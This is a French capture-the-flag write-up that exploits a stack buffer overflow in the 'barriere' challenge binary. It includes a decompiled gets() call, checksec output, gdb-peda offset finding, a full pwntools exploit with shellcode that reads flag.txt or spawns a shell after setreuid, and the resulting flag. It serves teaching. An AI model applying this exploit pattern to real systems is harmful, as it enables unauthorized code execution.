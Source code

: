 # Barriere

![barriere](barriere.png)

## Write-Up

### Première exécution

Les interactions avec le challenge sont assez simples :
- Le serveur nous donne ce qui semble être un accès SSH
- On y trouve un programme nommé `barriere`
- Le programme nous renvoit une chaîne de caractères
- Le programme lit un input
- Le programme quitte

```bash
$ ssh opennc@challs.hackagou.nc 5001
$ ./barriere
Show me your style!
Je bloque à 0x7ffedf64b8b0
AAAAAA
```

### Analyse statique

Le challenge nous permet de télécharger le binaire à exploiter sur le serveur.

En regardant rapidement le code, on trouve la fonction main qui correspond au code suivant :

```c
int main(void)

{
  char user_input [64];

  setvbuf(stdout,(char *)0x0,2,0);
  puts(&DAT_004006f8);
  printf("Je bloque à %p\n",user_input);
  gets(user_input);
  return 0;
}
```

On remarque que l'adresse leakée est celle de notre input (sur la stack).
Par ailleurs, il n'y a pas de contrôle sur la taille de l'input qui va être stocké dans un buffer de 64 octets

Niveau protection, rien de particulier, la stack permet l'exécution de code et aucun canary n'y est placé :

```bash
$ checksec barriere
[*] '/home/opennc/barriere'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

Il reste à supposer que l'ASLR est activée sur le serveur, ce qui est confirmé en relançant deux fois le challenge, l'adresse du leak change.


### Exploit

Avec tout ça, on conclut rapidement que c'est un buffer overflow et donc suivre les instructions habituelles de ce type de vulnérabilité :
- Remplir le buffer
- Ecraser la sauvegarde de RIP sur la stack (avec une adresse pointant sur notre shellcode)
- Poser un shellcode sur la stack

Nous trouvons facilement l'offset du RIP via peda (création d'une chaîne de 256 caractères et utilisation lors de l'input du programme)

```
gdb-peda$ pattern_create 256
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G'
gdb-peda$ run
Starting program: /home/opennc/barriere 
warning: Error disabling address space randomization: Operation not permitted
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Show me your style!
Je bloque à 0x7ffea3db4e40
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G

Program received signal SIGSEGV, Segmentation fault.
Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled off'.

Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled on'.


[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x0 
RCX: 0x7f0fbd8ddaa0 --> 0xfbad2288 
RDX: 0x1 
RSI: 0x1 
RDI: 0x7f0fbd8dfa80 --> 0x0 
RBP: 0x4141334141644141 ('AAdAA3AA')
RSP: 0x7ffea3db4e88 ("IAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G")
RIP: 0x4005ba (<main+67>:	ret)
R8 : 0x0 
R9 : 0x0 
R10: 0x77 ('w')
R11: 0x246 
R12: 0x7ffea3db4f98 --> 0x7ffea3db5829 ("/home/opennc/barriere")
R13: 0x400577 (<main>:	push   rbp)
R14: 0x0 
R15: 0x7f0fbd92c040 --> 0x7f0fbd92d2e0 --> 0x0
EFLAGS: 0x10206 (carry PARITY adjust zero[ sign trap INTERRUPT direction overflow)
[..]]
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00000000004005ba in main ()
```

On cherche quelle instruction a pu pousser le programme à l'erreur de segmentation.

<pre><code>gdb-peda$ info frame
Stack level 0, frame at 0x7fffffffdc48:
 rip = 0x4005ba in main; <b><ins>saved rip = 0x4134414165414149</ins></b>
 called by frame at 0x7fffffffdc58
 Arglist at 0x4141334141644141, args: 
 Locals at 0x4141334141644141, Previous frame's sp is 0x7fffffffdc50
 Saved registers:
  rip at 0x7fffffffdc48</code></pre>

RIP pointait sur 0x4134414165414149 qui correspond à IAAeAA4A en little-endian. Utilisation de *pattern_offset* afin de trouver l'offset de cette chaîne qui nous servira à écraser RIP.

```
gdb-peda$ pattern_offset IAAeAA4A
IAAeAA4A found at offset: 72
```

Nous devons donc réécrire l'adresse fournie par le programme jusqu'au 72ème octet, écrire l'adresse de notre shellcode (adresse reçue du programme + 72 + 8) et placer notre shellcode.

Ce qui donne, en utilisant pwntools et un simple shellcode 'cat flag.txt' :

```python
from pwn import *

context.clear(arch='amd64')
s = ssh(host='challs.hackagou.nc', port=5001, user='opennc', password='opennc')

p = s.process('./barriere')

resp = p.recvuntil(b'0\n')
buff_add = resp.split(b'\n')[1].split(b' ')[3]
log.success("Leak : " + buff_add.decode())

shell_addr = int(buff_add.decode(), 16) + 72 + 8
log.success("shell_addr : " + hex(shell_addr))

payload = b"\x90" * 72
payload += p64(shell_addr)
payload += asm(shellcraft.cat('flag.txt'))

p.sendline(payload)
print(p.recvline().decode())
```

```bash
$ python3 pwn-barriere.py
[+] Connecting to challs.hackagou.nc on port 5001: Done
[*] opennc@challs.hackagou.nc:
    Distro    Ubuntu 22.04
    OS:       linux
    Arch:     amd64
    Version:  5.15.0
    ASLR:     Enabled
[+] Starting remote process bytearray(b'./barriere') on 127.0.0.1: pid 81
[+] Leak : 0x7ffd90f9c7e0
[+] shell_addr : 0x7ffd90f9c840
OPENNC{BufF3R_0v3r_t3h_F10w}
```

Pour ceux qui souhaitaient utiliser un bash ou un sh, il est nécessaire de faire un setreuid() avant l'appel du shell afin de récupérer les droits du SUID.

```python
# Autre possibilité via un shell
payload += asm(shellcraft.setreuid() + shellcraft.sh())
p.sendline(payload)
p.interactive()
```
